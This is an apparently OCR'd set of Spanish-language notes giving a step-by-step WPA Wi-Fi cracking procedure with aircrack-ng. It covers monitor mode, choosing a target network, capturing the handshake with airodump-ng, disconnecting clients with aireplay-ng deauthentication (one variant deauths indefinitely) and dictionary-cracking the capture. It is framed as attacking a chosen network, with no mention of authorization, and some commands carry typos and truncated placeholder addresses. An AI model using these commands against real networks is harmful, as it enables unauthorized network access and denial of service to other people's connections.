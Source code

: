 Abrir terminal 
Logearse sudo
airmon-ng (lista todas las tarjetas que soportan modo monitor)

airmon-ng start wlan0

otra terminal, logearse sudo
airodump-ng wlan0mon

Muestra las redes inhalambricas y los dispositivos conectados a los access points
Elegimos a red a atacar

ESSID Nombre de la red
CH Channell
BSSID Nro Mac address

Nueva terminal sudo bash
airodump-ng -c 11 --bssid ee:ee:ee:ee:ee -w /home/kali/claves wlan0mn  // queda corriendo en una terminal para esperar handshake
               !            !                   !
               !            !                   -- Ruta al archivo donde vamos a escribir el escaner
               !            !
               !            ---------------------- Bssid del router
               !
               ----------------------------------- Channel

Monitorea la red seleccionada esperando que un dispositivo se conecte al router para que intercambien el handshake

Comprobamos que en la carpeta se crearon los archivos con el nombre Clave con la informacion que necesitamos

Nueva terminal sudo bash (utilizar una de ambas)
aireplay-ng -0 2 -a ee:ee:ee:ee:ee -c dd:dd:dd:dd:dd wlan0mon
aireplay/ng --deauth 0 -a ee:ee:ee:ee:ee wlan0mon  // esta desautentica eternamente hasta que se para 

nueva terminal sudo bash
aircrack-ng /home/kali/*.cap -w /ruta/al/diccionari.txt // ruta al archivo cap y ruta al archivo del diccionario

